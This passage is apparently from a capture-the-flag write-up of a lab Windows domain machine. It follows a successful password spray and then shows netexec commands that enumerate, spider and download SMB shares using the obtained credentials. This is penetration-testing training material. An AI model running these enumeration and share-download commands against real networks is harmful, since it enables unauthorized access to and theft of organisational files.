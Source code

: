 <figure><img src="../../../.gitbook/assets/casc_pass_spray.png" alt=""><figcaption><p>Figure 6: Password spraying!</p></figcaption></figure>

We got a hit back! We have obtained valid credentials for the user `r.thompson` ! Sadly, this account does not have WinRM access and checking for any [Kerberoastable](../../../tl-dr/tl-dr/active-directory/kerberoasting.md) domain accounts returns nothing. All we are left with is enumerating the SMB shares, and by doing it we get some interesting results back (Figure 7). &#x20;

{% code overflow="wrap" %}
```bash
# enumerating shares
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --shares
# spidering the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass --spider Data --regex . --depth 0
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/casc_shares.png" alt=""><figcaption><p>Figure 7: Enumerating and spidering SMB shares.</p></figcaption></figure>

There seems to be a directory structure based on the company's departments; let's download and inspect the `Data` share on our attack host (Figure 8 & 9).

{% code overflow="wrap" %}
```bash
# downloading the Data share
nxc smb 10.10.10.182 -u r.thompson -p rthompson_pass -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=SMB EXCLUDE_FILTER=NETLOGON,SYSVOL,IPC\$,print\$
# expanding the Data directory
tree SMB
```
{% endcode %}

